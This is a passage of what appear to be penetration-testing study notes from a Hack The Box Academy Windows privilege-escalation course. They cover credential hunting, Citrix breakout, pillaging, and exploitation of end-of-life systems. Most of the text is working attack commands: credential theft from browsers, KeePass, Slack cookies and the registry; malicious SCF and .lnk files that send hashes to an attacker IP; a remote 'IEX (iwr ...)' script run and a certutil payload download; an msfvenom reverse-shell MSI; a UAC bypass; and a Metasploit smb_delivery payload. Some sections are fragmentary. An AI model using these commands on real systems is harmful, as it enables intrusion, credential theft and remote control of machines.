select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

where /R C:\ *.config

Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

**Sticky Notes Passwords**

```powershell
PS C:\htb> ls
 
 
    Directory: C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

We can copy the three `plum.sqlite*` files down to our system and open them with a tool such as [DB Browser for SQLite](https://sqlitebrowser.org/dl/) and view the `Text` column in the `Note` table with the query `select Text from Note;`.
**Viewing Sticky Notes Data Using PowerShell**

This can also be done with PowerShell using the [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite). First, import the module, point to a data source (in this case, the SQLite database file used by the StickNotes app), and finally query the `Note` table and look for any interesting data. This can also be done from our attack machine after downloading the `.sqlite` file or remotely via WinRM.

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
 
Text
----
```

**Other Files of Interest**

```powershell
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*

```

## **Further Credential Theft**

**Cmdkey Saved Credentials**

```powershell
cmdkey /list
```

**Run Commands as Another User**

```powershell
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

**Browser Credentials**

```powershell
.\SharpChrome.exe logins /unprotect
```

Note: Credential collection from Chromium-based browsers typically generates additional events that could be logged and identified by the blue team such as `4688` (process creation) and `16385` (DPAPI activity); defenders may also consider filesystem/object access events such as `4662` (object access) and `4663` (file access) to improve detection fidelity.

**Password Managers**

 Some password managers such as `KeePass` are stored locally on the host. If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password. If we can download a `.kdbx` file to our attacking host, we can use a tool such as [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) to extract the password hash and run it through a password cracking tool such as [Hashcat](https://github.com/hashcat) or [John the Ripper](https://github.com/openwall/john).

**Extracting KeePass Hash**

```powershell
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

```powershell
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

**Email**

If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool [MailSniper](https://github.com/dafthack/MailSniper).

**LaZagne**

When all else fails, we can run the [LaZagne](https://github.com/AlessandroZ/LaZagne) tool in an attempt to retrieve credentials from a wide variety of software.

**SessionGopher**

We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials. The tool is written in PowerShell and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find. It can also be run to search drives for PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA (.sdtid) files.

**Clear-Text Password Storage in the Registry**

Certain programs and windows configurations can result in clear-text passwords or other data being stored in the registry. While tools such as `Lazagne` and `SessionGopher` are a great way to extract credentials, as penetration testers we should also be familiar and comfortable with enumerating them manually.

**Windows AutoLogon**

```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

- `AutoAdminLogon` - Determines whether Autologon is enabled or disabled. A value of "1" means it is enabled.
- `DefaultUserName` - Holds the value of the username of the account that will automatically log on.
- `DefaultPassword` - Holds the value of the password for the user account specified previously.

```powershell
C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    
    <SNIP>
    
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    htb-student
    DefaultPassword    REG_SZ    HTB_@cademy_stdnt!

```

**`Note:`** If you absolutely must configure Autologon for your windows system, it is recommended to use Autologon.exe from the Sysinternals suite, which will encrypt the password as an LSA secret.

**Putty**

```powershell
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

Note that the access controls for this specific registry key are tied to the user account that configured and saved the session. Therefore, in order to see it, we would need to be logged in as that user and search the `HKEY_CURRENT_USER` hive. Subsequently, if we had admin privileges, we would be able to find it under the corresponding user's hive in `HKEY_USERS`.

**Enumerating Sessions and Finding Credentials in putty**

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh

```

**Wifi Passwords**

**Viewing Saved Wireless Networks**

```powershell
netsh wlan show profile
```

**Retrieving Saved Wireless Passwords**

```powershell
netsh wlan show profile ilfreight_corp key=clear
```

# Restrictred Environments

## Citrix Breakout

Basic Methodology for break-out:

1. Gain access to a `Dialog Box`.
2. Exploit the Dialog Box to achieve `command execution`.
3. `Escalate privileges` to gain higher levels of access.

Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc. We will cover using `MS Paint` as an example for this section.

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.

**Accessing SMB share from restricted environment**

Start a SMB server from the Ubuntu machine using Impacket's `smbserver.py` script.

```powershell
/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)
```

right click and open shell which is basically this

```powershell
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

also we have alternate explorer called Explorer++

**Script Execution**

When script extensions such as `.bat`, `.vbs`, or `.ps` are configured to automatically execute their code using their respective interpreters, it opens the possibility of dropping a script that can serve as an interactive console or facilitate the download and launch of various third-party applications which results into bypass of restrictions in place. This situation creates a potential security vulnerability where malicious actors could exploit these features to execute unauthorized actions on the system.

1. Create a new text file and name it "cmd.bat".
2. Open "cmd.bat" with a text editor such as Notepad.
3. Input the command "cmd" into the file.
4. Save the file.

**Escalating Privileges**

Once access to the command prompt is established, it's possible to search for vulnerabilities in a system more easily. For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system.

Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
        AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
        AlwaysInstallElevated    REG_DWORD    0x1
```

NOTE: If gives error on executing .ps1 files we need to run 

`Set-ExecutionPolicy Bypass -Scope Process`

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI

runas /user:backdoor cmd

PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```

# Additional Techniques

**Interacting with Users**

**Traffic Capture with wireshark**

**Process Command Lines**

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```bash
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}

```

**Running Monitor Script on Target Host**

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

**Vulnerable Services**

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

**SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

**Malicious SCF File**

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

```powershell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

**Starting Responder**

```powershell
sudo responder -w -v -I tun0
```

**Capturing Hashes with a Malicious .lnk File**

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()

```

## Pillaging

**Installed Applications**

We can see the `mRemoteNG` software is installed on the system. [mRemoteNG](https://mremoteng.org/) is a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols. Let's take a look at `mRemoteNG`.

**mRemoteNG**

`mRemoteNG` saves connection info and credentials to a file called `confCons.xml`. They use a hardcoded master password, `mR3m`, so if anyone starts saving credentials in `mRemoteNG` and does not protect the configuration with a password, we can access the credentials from the configuration file and decrypt them.

By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.

```powershell
Fau5t@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

```

**Abusing Cookies to Get Access to IM Clients**

Let's use `Slack` as an example. Multiple posts refer to how to abuse `Slack` such as [Abusing Slack for Offensive Operations](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282) and [Phishing for Slack-tokens](https://thomfre.dev/post/2021/phishing-for-slack-tokens/). We can use them to understand better how Slack tokens and cookies work, but keep in mind that `Slack's` behavior may have changed since the release of those posts.

There's also a tool called [SlackExtract](https://github.com/clr2of8/SlackExtract) released in 2018, which was able to extract `Slack` messages. Their research discusses the cookie named `d`, which `Slack` uses to store the user's authentication token. If we can get our hands on that cookie, we will be able to authenticate as the user. Instead of using the tool, we will attempt to obtain the cookie from Firefox or a Chromium-based browser and authenticate as the user.

Cookie Extraction from Firefox

Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each user's APPDATA directory `%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`. There's a piece of the file that is random, and we can use a wildcard in PowerShell to copy the file content.

```powershell
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

**Extract Slack Cookie from Firefox Cookies Database**

```powershell
Fau5t@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

## **Miscellaneous Techniques**

**Living Off The Land Binaries and Scripts (LOLBAS)**

The [LOLBAS project](https://lolbas-project.github.io/) documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. Some interesting functionality may include:

|  |  |  |
| --- | --- | --- |
| Code execution | Code compilation | File transfers |
| Persistence | UAC bypass | Credential theft |
| Dumping process memory | Keylogging | Evasion |
| DLL hijacking |  |  |

**Transferring File with Certutil**

```powershell
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

**Encoding File with Certutil**

```powershell
certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

**Decoding File with Certutil**

```powershell
certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

**Always Install Elevated**

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

**Enumerating Always Install Elevated Settings**

```powershell
 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

**Generating MSI Package**

```powershell
 msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

**Executing MSI Package**

```powershell
 msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**CVE-2019-1388**

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The `Issued By` field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. This OID value is identified in the [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header as [SPC_SP_AGENCY_INFO_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) which is the `SpcSpAgencyInfo` field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) that contains a certificate with the `SpcSpAgencyInfo` field populated with a hyperlink.

When we click on the hyperlink, a browser window will launch running as `NT AUTHORITY\SYSTEM`. Once the browser is opened, it is possible to "break out" of it by leveraging the `View page source` menu option to launch a `cmd.exe` or `PowerShell.exe` console as SYSTEM.

Microsoft released a [patch](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388) for this issue in November of 2019. Still, as many organizations fall behind on patching, we should always check for this vulnerability if we gain GUI access to a potentially vulnerable system as a low-privilege user.

**Scheduled Tasks**

**Enumerating Scheduled Tasks**

```powershell
C:\htb>  schtasks /query /fo LIST /v
 
Folder: \
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows
INFO: There are no scheduled tasks presently available at your access level.
 
Folder: \Microsoft\Windows\.NET Framework
HostName:                             WINLPE-SRV01
TaskName:                             \Microsoft\Windows\.NET Framework\.NET 
```

**Enumerating Scheduled Tasks with PowerShell**

```powershell
Get-ScheduledTask | select TaskName,State
```

**Checking Permissions on C:\Scripts Directory**

```powershell
 .\accesschk64.exe /accepteula -s -d C:\Scripts\
```

**User/Computer Description Field**

**Checking Local User Description Field**

```powershell
Get-LocalUser
```

**Enumerating Computer Description Field with Get-WmiObject Cmdlet**

```powershell
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

**Mount VHDX/VMDK**



# Dealing With End of Life Systems

## Windows Servers

For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist us with this, or we can even enumerate the patch level manually and perform our own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

**Querying Current Patch Level**

```powershell
wmic qfe
```

**Running Sherlock**

```powershell
Set-ExecutionPolicy bypass -Scope process

Import-Module .\Sherlock.ps1
Find-AllVulns
```

**Obtaining a Meterpreter Shell**

```bash
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery
use 0
msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH

msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0
exploit
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
#Rundll Command on Target Host
```

Then select a cve from sherlock to privesc.